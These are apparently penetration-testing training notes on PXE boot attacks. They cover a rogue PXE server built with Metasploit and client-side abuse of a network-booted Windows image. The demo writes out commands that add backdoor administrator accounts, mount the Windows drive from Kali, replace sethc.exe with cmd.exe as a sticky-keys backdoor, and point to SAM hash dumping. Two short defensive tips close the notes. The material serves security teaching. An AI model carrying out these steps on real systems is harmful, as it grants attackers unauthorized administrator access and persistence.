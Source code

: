 PXE Boot Attacks - Tradecraft Security Weekly #27

# What is PXE?
- Pre-boot Execution Environment (PXE)
- Typically used to deploy operating system images to new hosts.
- Allows for network booting so admins don't have to go through OS install from scratch
- Interesting attacks from both the client and server sides
# How does it work?
![f43accc8a9d39b5cd0921386e29b5578.png](../_resources/59c2b0fc0ebf401297d90fbf8c257705.png)
# PXE Boot Attacks: Evil Server
- Create an Evil PXE Server
- Host DHCP and TFTP to serve up a malicious boot image
- Metasploit auxiliary/server/pxeexploit
	- Installs Meterpreter service
	- Disables Firewall
	- Adds new admin user
- Requires victim to reboot and network boot
- Metasploit DHCP server has had issues, might want to try hosting with dnsmasq
# PXE Boot Attacks: Client
- Set VM to network boot to obtain and image from target organization
- Perform local attacks against 'golden image'
- Really useful for onsite engagements where you have physical network access
- Use as a pivot point
- Gain useful info about domain/system info (AV, OS, etc)
- Kiosk? Fun with restricted env escapes
- During inital Windows setup try pressing Shift+F10 to bring up a console
	- Add a new admin
- After getting an image boot from kali iso
- Mount Windows drive
	- Can now add a backdoor account
	- Overwrite Sticky Keys with cmd.exe
	- Dump local hashes to crack or PTH later
	- Look for other info about domain/servers
# DEMO
After downloading and creating the image in pxe boot and during initial reboot...when you see the "Starting services screen"
```
Shift+F10
cmd.exe>
C:\ net user dafthack SuperPassword2018! /ADD
C:\ net localgroup administrators /add dafthack
close window
```
Boot to Kali image
```
esc during boot
load a live kali iso image
# fdisk -l
# mkdir /mnt/ntfs
# mount -t ntfs-3g /dev/sda2 /mnt/ntfs
# cd /mnt/ntfs/
# ls 
```
can dump the SAM files
can also set up sticky key attacks
```
# cd /mnt/ntfs/Windows/System32/
# cp cmd.exe sethc.exe
reset vm
```
let it boot into windows and admin user
```
shift 5 times 
C:\ net user dafthack2 SuperPassword2018! /ADD
C:\ net localgroup administrators /add dafthack2
restart
```
# For the Blue Team
- Implement NAC to prevent unauthorized devices from connecting
- Only enable PXE boot on helpdesk/imaging subnets
